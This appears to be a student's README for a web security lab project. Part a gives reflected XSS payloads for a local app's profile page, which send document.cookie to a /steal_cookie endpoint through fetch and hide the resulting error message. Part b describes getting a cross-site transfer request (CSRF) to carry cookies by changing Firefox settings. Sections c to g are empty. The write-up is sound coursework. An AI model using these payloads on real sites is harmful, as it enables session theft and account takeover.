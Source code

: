 # Project 1

## Team members

- PRO
- zzh

## Procedure

### a

1. Test HTML injection via: `http://localhost:3000/profile?username=<script>alert(1);</script>`, which works.
2. Try `http://localhost:3000/profile?username=hack<script>location.href="/steal_cookie?session_cookie="+document.cookie</script>`, but `+` got interpreted as space.
3. Simple fix: ```http://localhost:3000/profile?username=hack<script>location.href=`/steal_cookie?session_cookie=${document.cookie}`</script>```, but the redirect would be visible to user.
4. Using `fetch`: ```http://localhost:3000/profile?username=hack<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);</script>```
5. Fixing `User does not exist`: ```http://localhost:3000/profile?username=<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);document.querySelector("p.error").remove();</script>```

### b

Having tried `<form>`, `XMLHttpRequest` and `fetch`, but all of them refused to send cookies: `Partitioned cookie or storage access was provided to “http://localhost:3000/post_transfer” because it is loaded in the third-party context and dynamic state partitioning is enabled.`. The root cause is that, on firefox:

> A request to access cookies or storage was partitioned because it came from a third-party (a different origin) and dynamic state partitioning is enabled.

Our request does not come from `localhost:3000`, so firefox refuses to send it with cookie.

**Solution**: Change [firefox settings](about:preferences#privacy) according to the image.

![Firefox](./images/firefox.jpg)

After changing the settings and re-visiting our HTML, the attack shall succeed:

![Success](./images/success.jpg)

### c

### d

### e

### f

### g



## References

- Detailed guide on how to install docker: https://lindevs.com/install-docker-ce-on-ubuntu/
- https://stackoverflow.com/questions/168455/how-do-you-post-to-an-iframe
- https://developer.mozilla.org/en-US/docs/Web/Privacy/Storage_access_policy/Errors/CookiePartitionedForeign
- https://stackoverflow.com/questions/35325370/how-do-i-post-a-x-www-form-urlencoded-request-using-fetch
